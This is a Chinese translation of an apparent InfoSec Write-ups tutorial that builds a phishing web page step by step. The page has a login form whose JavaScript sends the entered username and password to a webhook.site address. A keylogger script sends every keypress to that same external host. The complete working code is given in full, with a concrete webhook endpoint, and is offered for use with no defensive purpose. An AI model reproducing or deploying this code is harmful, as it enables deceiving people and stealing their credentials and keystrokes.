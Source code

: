 # 创建一个简单的钓鱼网站和一个 Javascript 键盘记录器

> 原文：<https://infosecwriteups.com/create-a-simple-phishing-website-and-a-javascript-keylogger-9bcafbe6ffda?source=collection_archive---------0----------------------->

![](img/8ee22cbb2330627a4bad6a32dc812c02.png)

嗨伙计们！

今天，我将向您展示一个简单的网站创建，它带有一个允许我们向远程服务器发送用户名和密码的表单，我们还将向钓鱼网站添加一个键盘记录器。

我们开始吧。

首先，我们将使用 HTML 创建页面的图形外观。

```
<!DOCTYPE html>
 <html>
    <body>
       <h4>        A simple website, nothing suspicious   </h4>       <label for="domTextElement">Username: </label>
        <input type="text" id="username" >
 <br><br>        <label for="domTextElement1">Password: </label>
       <input type="password" id="password" >
 <br><br>       
<button type="button"  onclick="getValueInput()">click me!!    </button>
         <p id="valueInput"></p>
    </body>
 </html>
```

我不认为有太多要解释的，唯一重要的是记住标签 id 的名称，因为我们以后会需要它们。

现在有趣的部分开始了。

我们首先创建 Javascript 代码，将用户名和密码发送到我们的服务器。

```
<script>
       const getValueInput = () =>{

let inputValue=document.getElementById("username").value; 

let inputValue1 = document.getElementById("password").value;        var i=new Image();
var j=new Image();
i.src="https://webhook.site/?password="+inputValue1;  j.src="https://webhook.site/?username="+inputValue; 
window.location.reload();
```

```
 }        
</script>
```

代码非常简单，我们创建两个变量来保存用户名和密码，然后将它们发送到我们的服务器。

*window.location.reload()* 用于刷新*页面。*

您可以使用该站点接收从我们的脚本发送的请求。

 [## Webhook.site -测试、处理和转换电子邮件和 HTTP 请求

### Webhook.site 让您可以轻松地检查、测试和自动化(使用可视化自定义操作生成器或 WebhookScript)任何…

网页挂钩网站](https://webhook.site) 

*注意:记住一旦你得到你的链接就把它放在代码里；)*

我们现在通过实现一个键盘记录器来扩展网站的功能🔑。

```
var keys='';
var url = 'http://webhook.site/?c=';
 document.onkeypress = function(e)
 { 
get = window.event?event:e;
 key = get.keyCode?get.keyCode:get.charCode;
 key = String.fromCharCode(key); keys+=key;
}
window.setInterval(function(){ 
if(keys.length>0) {  
new Image().src = url+keys;
  keys = ''; }
}, 1);
```

[Javascript-key logger/key logger . js at master JohnHoder/Javascript-key logger GitHub](https://github.com/JohnHoder/Javascript-Keylogger/blob/master/keylogger.js)

当一个键被按下时，该代码被调用，并将相应的字符发送到服务器。

这是我们网站的完整代码。

```
<!DOCTYPE html>
 <html>
    <body>
       <h4>        A simple website, nothing suspicious   </h4>       <label for="domTextElement">Username: </label>
        <input type="text" id="username" >
 <br><br>        <label for="domTextElement1">Password: </label>
       <input type="password" id="password" >
 <br><br>       
<button type="button"  onclick="getValueInput()">click me!!    </button>
         <p id="valueInput"></p>
         <script>
       const getValueInput = () =>{

let inputValue=document.getElementById("username").value; 

let inputValue1 = document.getElementById("password").value;        var i=new Image();
var j=new Image();
i.src="[https://webhook.site/](https://webhook.site/753150bb-4d5e-49b5-8d1b-6a6b750e02ac/?password=)?password="+inputValue1;  j.src="[https://webhook.site/?username=](https://webhook.site/753150bb-4d5e-49b5-8d1b-6a6b750e02ac/?username=)"+inputValue; 
window.location.reload();
```

```
 }   
  var keys='';
var url = '[https://webhook.site/?c='](https://webhook.site/753150bb-4d5e-49b5-8d1b-6a6b750e02ac/?c=');
 document.onkeypress = function(e)
 { 
get = window.event?event:e;
 key = get.keyCode?get.keyCode:get.charCode;
 key = String.fromCharCode(key); keys+=key;
}
window.setInterval(function(){ 
if(keys.length>0) {  
new Image().src = url+keys;
  keys = ''; }
}, 1);
</script>
    </body>
 </html>
```

让我们看看是否一切正常。

![](img/4dce78a0a288225b3c16366f80329345.png)

正如我们所看到的，数据已经发送到我们的网站！

![](img/76318110942920d3ac9633d9a8d06251.png)![](img/f187b3e98fe702c235a58d3b56aae07f.png)

我希望这篇文章会让你感兴趣。

到下一篇，拜拜！

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*